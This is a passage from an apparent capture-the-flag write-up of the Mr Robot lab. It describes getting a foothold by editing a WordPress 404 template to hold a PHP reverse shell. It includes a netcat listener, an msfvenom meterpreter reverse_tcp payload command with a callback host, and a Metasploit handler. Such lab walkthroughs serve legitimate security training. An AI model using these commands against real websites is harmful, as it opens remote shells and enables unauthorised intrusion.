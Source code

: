Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.

<center>

![b012d5df19bf44bae95653fc177520dc.png](../../_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](../../_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.

<center>

![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](../../_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)

</center>